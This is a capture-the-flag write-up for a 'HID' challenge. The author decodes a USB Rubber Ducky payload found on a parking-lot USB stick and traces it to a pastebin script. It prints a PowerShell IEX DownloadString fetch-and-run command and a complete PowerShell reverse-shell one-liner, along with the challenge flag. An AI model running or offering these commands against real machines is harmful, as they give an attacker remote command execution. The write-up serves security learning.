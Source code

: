 # HID (300 points)

## Description

One of my colleagues found a USB stick in the parking lot in front of our company. Fortunately he handed it over directly to us . The drive contains an SD card with just one file. Maybe it's no normal USB flash drive?

[Attached bin](resources/inject.bin)

## Solution

Inject.bin found in usb... What could it be? Sure! Ducky scripts!

Let's google ducky scripts decoder. [**Here we are**](https://ducktoolkit.com/).

Having decoded the script, I started reading the code. I still don't understand what the code does, but I found an interesting line:
```
powershell "IEX *New/Object Net.WebClient(.DownloadString*~https>&&pastebin.com&raw&YRD8jsvd~(<"ENTER
```

Let's open that link to pastebin and get the 404 error :)
![](resources/XVVlj7ZIvCU.jpg)

I decided to search in google cache and Waybackk machine, but this page was not saved anywhere.

I tried to run the script in a virtual machine, but the script didn't do anything. Since I did not understand anything in the Daki scripts, I could not change them. I had no ideas and decided to open a hint.
```
There are different languages for your keyboard layout.
```
Switzerland was the answer. The link to pastebin has become valid, we open it and see the response with the flag
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag: syskronCTF\{y0u_f0und_m3}
